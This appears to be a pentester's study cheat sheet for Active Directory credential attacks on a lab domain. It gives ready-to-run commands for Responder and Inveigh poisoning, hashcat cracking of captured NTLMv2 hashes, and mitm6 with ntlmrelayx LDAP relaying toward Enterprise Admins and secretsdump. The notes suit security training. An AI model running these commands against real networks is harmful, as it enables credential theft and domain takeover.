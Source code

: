 ### Responder 
Standard (let run in background)
```bash
sudo responder -I eth0 -dwF
```
Need NTLMv1 (**not opsec friendly**)
```bash
sudo responder -I eth0 -dFP
```
Locate hashes under `/usr/share/responder/logs` and  `/usr/share/responder/`
```bash
sqlitebrowser /usr/share/responder/Responder.db
```
Crack
```bash
hashcat -m 5600 adm.ntlmv2 ~/rockyou.txt
```

| Flag           | Description                                                                                                                                                                                                                                                                                                                     |
| -------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `-A`           | Act as a fly on the wall and listen to the traffic                                                                                                                                                                                                                                                                              |
| `-w`           | Rogue WPAD server. This can be highly effective, especially in large organizations, because it will capture all HTTP requests by any users that launch Internet Explorer if the browser has [Auto-detect settings](https://docs.microsoft.com/en-us/internet-explorer/ie11-deploy-guide/auto-detect-settings-for-ie11) enabled. |
| `-f`           | Fingerprint machine                                                                                                                                                                                                                                                                                                             |
| `-F`      `-P` | Force orce NTLM or Basic authentication and force proxy authentication, but may cause a login prompt, so they should be used sparingly                                                                                                                                                                                          |
| `-d`           | Enable answers for DHCP broadcast requests. This option will inject a WPAD server in the DHCP response.                                                                                                                                                                                                                         |
### [Inveigh](https://github.com/Kevin-Robertson/Inveigh)
Inveigh can listen to IPv4 and IPv6 and several other protocols, including `LLMNR`, DNS, `mDNS`, NBNS, `DHCPv6`, ICMPv6, `HTTP`, HTTPS, `SMB`, LDAP, `WebDAV`, and Proxy Auth

Powershell based Inveigh - LLMNR and NBNS Spoofing
```powershell
Import-Module .\Inveigh.ps1
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

C# Inveigh (InveighZero)
```powershell
.\Inveigh.exe
Press ESC to enter/exit interactive console
HELP
GET NTLMV2UNIQUE
GET NTLMV2USERNAMES
```
The options with a `[+]` are default and enabled by default and the ones with a `[ ]` before them are disabled.

### IPv6 Attacks

```bash
sudo mitm6 -i eth0 -d PNPT.local
```

```bash
impacket-ntlmrelayx -6 -t ldaps://192.168.1.129 -wh evil.PNPT.local -l lootme
```

```bash
jq -r '.[] | .attributes.sAMAccountName[0]' domain_users.json
```

Typically machines on networks run on IPv4, sometimes not even utilizing IPv6 at all but still have it enabled by default. In a network there is usually **nobody** doing DNS for IPv6

We can leverage this by replying to all DHCPv6 messages, giving them a Link-Local address and telling them that we're their default DNS server.

**MITM6** paired with **Impacket-ntlmrelayx** using **LDAP relaying,** can allow us to pull a lot of information from the Domain Controller and even create a new user account in the Enterprise Admins group when a Domain Administrator logs into the network. This can allow us to run secretsdump against the Domain Controller.